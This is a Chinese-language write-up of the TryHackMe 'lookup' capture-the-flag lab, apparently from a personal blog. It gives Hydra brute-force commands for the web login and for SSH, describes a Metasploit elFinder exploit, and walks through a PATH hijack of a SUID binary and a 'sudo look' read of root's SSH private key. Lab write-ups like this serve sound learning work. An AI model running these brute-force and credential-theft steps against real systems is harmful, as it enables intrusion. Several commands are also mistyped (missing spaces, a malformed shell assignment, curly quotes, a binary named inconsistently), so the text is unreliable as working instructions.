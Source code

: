 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme lookup-教程/","title":"lookup 教程","tags":["linux","靶场","#tryhackme"]}
---
```


# lookup 教程
![lookup](/img/user/images/lookup-教程/head.png)

这次来了个lookup 话不多说 直接看题

![lookup](/img/user/images/lookup-教程/title.png)

## 第一步
我们还是绑一下域名 就是在/etc/hosts里面输你的机器ip 加lookup.thm

这个就不上图了 记得顺便把file.lookup.thm也绑一下hosts 不然等下登录进去就会发现登不进去

![file](/img/user/images/lookup-教程/fail.png)

## 第二步
我们访问lookup.thm 发现是个登录界面 先随便输几个试试水 经过发现会有两个提示 第一个是密码错误 第二个是密码和账户都错误 用hydra来搞一下 看看能破解出来吗 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form  "/login.php:username=^USER^&password=^PASS^:Wrong Password. Please try again"

hydra -L /usr/share/wordlists/rockyou.txt -p password123 lookup.thm http-post-form  -vV "/login.php:username=^USER^&password=^PASS^:Wrong username or password. Please try again."
```

[[tips和一些工具/linux工具#^ea11bf\|linux工具#^ea11bf]]

通过第一个代码 能够爆出密码是晒 第二个代码可以把账户名也搞出来

![hydra](/img/user/images/lookup-教程/password.png)

![hydra](/img/user/images/lookup-教程/password2.png)

## 第三步
破解出密码之后 我们登录进去看看怎么个事 发现是个类似文件夹的管理系统 文件基本上都是上锁了 看看没解锁的文件有啥提示吗 

![lock](/img/user/images/lookup-教程/file1.png)

好吧 也没提示啥 偶然发现了这个文件夹是elfinder 版本号也知道 搜一下看有漏洞吗 发现是有的 我们打开msf 搜一下这个漏洞

![lock](/img/user/images/lookup-教程/banbaen.png)

![msf](/img/user/images/lookup-教程/msf.png)

配置一下rhost和lhost这两个参数 一个是你要攻击的域名 一个是你本机的ip run一下 我们成功打进去了

![msf](/img/user/images/lookup-教程/msf1.png)

## 第四步
这个有有点困难了 要提权 先find /--perm 4000 2>/dev/null 查看suid用户 发现一个叫pwn的用户 感觉这个是解题关键 ls查看一下详细信息 所属root 

```
find /--perm 4000 2>/dev/null 
```

>/dev/null 表示将标准错误输出重定向到 /dev/null，这相当于丢弃错误信息。


![shell](/img/user/images/lookup-教程/pwn.png)


![shell](/img/user/images/lookup-教程/pwn2.png)

输入/usr/sbin/pwm 他告诉我们提示 输入ip 会显示用户名 我们就得想办法的让他爆名字 输入id这个命令能知道用户名

![shell](/img/user/images/lookup-教程/id.png)

我们在/tmp中搞一个id的文本文件 id think用户 

```
echo -e '#!/bin/bash\n echo "uid=33(think) gid=33(think) groups=33(think)"' > id
```

![shell](/img/user/images/lookup-教程/think.png)

别忘了给这个id文件加上可执行的权限

```
chmod +x id
```
然后修改一下环境变量 将 /tmp 目录添加到 PATH 变量的最前面。系统在查找可执行文件时，会首先查找 /tmp 目录中的文件。

如果 /tmp 目录中有可执行文件，直接输入命令时，系统会优先在 /tmp 中寻找该命令。

![shell](/img/user/images/lookup-教程/export.png)

重新运行/usr/sbin/pwm 就能看到爆出来了一堆密码(没猜错就是密码)

![shell](/img/user/images/lookup-教程/jose1.png)

把这些复制下来 粘贴到一个文本文档中 做成一个密码本 用户名为think 用hydra爆破ssh的密码 

```
hydra -l think -P /path/你的密码本文件名 ssh://lookup.thm
```

![shell](/img/user/images/lookup-教程/mima.png)

[[tips和一些工具/linux工具#^d8a8c8\|linux工具#^d8a8c8]]
用这个用户名和密码就能成功ssh连接上think这个用户 然后直接ls就能查看到user.txt

![mima](/img/user/images/lookup-教程/user.png)

成功爆破 还有一个root用户还没解决 我们sudo -l查看能运行什么命令 有个look 我们到这里[GTFOBins](https://gtfobins.github.io/gtfobins/) 搜索look 

![mima](/img/user/images/lookup-教程/sudo.png)

这也是个漏洞 让他爆出root的秘钥

![mima](/img/user/images/lookup-教程/look2.png)

```
LFILE = /root/.ssh/id_rsa 

sudo look ''  “ $LFILE ”
```

![mima](/img/user/images/lookup-教程/look.png)

最后把 秘钥粘贴到一个文本文件中  成功登录 ls就能看到root.txt 第二问解决

```
ssh -i 文件名 root@lookup.thm
```

![mima](/img/user/images/lookup-教程/ssh.png)

![mima](/img/user/images/lookup-教程/root.png)

lookup只能说很细节 用了msf hydra 提权 提权还是不懂 我都是网站找的python的搞 这个纯纯弱项了 还有hydra也折腾了好久 本来是rockyou.txt一直梭 但一直不出 换了好几个用户名的字典 才把用户名搞出来
要破解网站要加这个"username=^USER^&password=^PASS^:网页输错的提示"一开始是很不理解为啥这样的 这个网站一个是密码和用户名全错 一个是用户名错 就用这个提示把密码筛选出来 然后用密码破用户名 学的东西还挺多的
